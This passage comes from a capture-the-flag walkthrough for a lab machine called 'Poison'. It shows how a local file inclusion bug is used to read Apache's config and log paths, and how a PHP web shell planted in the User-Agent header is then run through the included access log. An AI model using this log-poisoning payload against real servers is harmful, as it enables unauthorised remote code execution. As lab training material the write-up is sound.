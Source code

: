 #### Theory

The idea behind log poisoning is to put some php into the logs, and then load
them where php will be executed. If we look at the access log, we see that on
each visit to the site, there’s an entry written with the url visited and the
user-agent string of the browser visiting.

The simplest case would be to change our user-agent string such that it
includes php, and then include that log file with our LFI. We could also
poison the url field, but visiting something like
`http://10.10.10.84/browse.php?not_an_arg=[php code]`. As long as we can get
our php written into the log, we will succeed.

#### Finding the Logs

If the user attempts to grab a file that doesn’t exist, there’s an error page
that looks like this: ![](https://0xdfimages.gitlab.io/img/poison_error.png)

This reveals the path to the current wwwroot as:
`/usr/local/www/apache24/data/browse.php`

Next, we’ll want to find the `httpd.conf` file, which will tell us where the
log files are located. We’ll find that at
`/usr/local/etc/apache24/httpd.conf`, and if we get that file (using the url
`http://10.10.10.84/browse.php?file=/usr/local/etc/apache24/httpd.conf`),
we’ll see the locations of the access and error logs:

    
    
    ErrorLog "/var/log/httpd-error.log"
    CustomLog "/var/log/httpd-access.log" combined
    

#### Log Poisoning

Lines in our access log look like this:

    
    
    10.10.14.4 - - [19/Mar/2018:13:28:50 +0100] "GET /HNAP1 HTTP/1.1" 404 203 "-" "Mozilla/5.0 (compatible; Nmap Scripting Engine; https://nmap.org/book/nse.html)"
    

We’ll modify our user-agent using burp to add a webshell. I always like to add
a marker here (like “0xdf:”), so that as the log file grows, we can easily
locate our output, either with ctrl-f, or using curl and grep.

    
    
    GET / HTTP/1.1
    Host: 10.10.10.84
    User-Agent: 0xdf: <?php system($_GET['c']); ?>
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Connection: close
    Upgrade-Insecure-Requests: 1
    

Then visit: `http://10.10.10.84/browse.php?file=/var/log/httpd-
access.log&c=id`
